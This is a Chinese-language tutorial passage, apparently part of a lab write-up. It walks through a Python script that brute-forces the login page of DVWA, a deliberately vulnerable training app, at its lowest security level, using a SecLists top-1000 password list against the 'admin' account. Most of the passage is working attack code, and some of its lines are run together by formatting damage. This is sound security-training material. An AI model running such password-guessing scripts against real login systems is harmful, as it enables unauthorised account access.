 感谢我们所创造的，当我们尝试不同的安全级别时，没有太多的变化要做。
在这一步中，我们可以解决没有任何保护的最简单的关卡，但我们不会急于求成，这样我们就可以专注于程序。
在开始 python 脚本之前，让我们写下我们想要成功地对 DVWA 执行暴力攻击所要做的事情。

*   定义发送凭据的函数
*   定义一个从文件中读取密码并返回列表的函数。
*   将它们放在一个 main 中，该 main 将使用 for 循环发送列表中的每个密码。

对于密码列表，我将使用 [SecLists](https://github.com/danielmiessler/SecLists) 中的[1000 万密码列表 top-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt) 。

让我们定义一个从文件中检索密码并返回列表的方法:

```
def get_passwords(filename):
    q = []
    with open(filename, 'r') as f:
        for e in f.read().split("\n"):
            q.append(e) return q
```

现在我们需要定义发送凭证的方法。
我选择在这个函数中一步一步地构建 URL，通过在字典中传递参数，因为它将在最后一级帮助我们，所以让我们看看它是如何出现的:

```
def send_credentials(session, url, data): target_url = url
    for k, v in data.items():
        target_url+=f"{k}={v}&"
    target_url = target_url[:-1]+"#"
    response = session.get(target_url)   
    return response
```

最后，在 main 函数中，我们需要发送凭证，直到我们没有收到不包含单词*“不正确的密码”*的响应

我们将在 for 循环中这样做:

```
if __name__=="__main__":
    BASE_URL = "[http://10.10.36.246](http://10.10.36.246)"
    bruteforce_url = f"{BASE_URL}/vulnerabilities/brute?"
    filename = sys.argv[1]
    username = "admin" q = get_passwords(filename) with DVWASessionProxy(BASE_URL) as s:
        s.security = SecurityLevel.LOW
        for password in q:

            data = {
            "username": username,
            "password": password,
            "Login": "Login"
            }
            response = send_credentials(s, bruteforce_url, data)
            print(" "*40, end="\r")
            print(f"[!] Testing: {password}", end="\r")
            if "password incorrect." not in response.text:
                print("")
                print(f"[+] Found: {password}")
                break
```
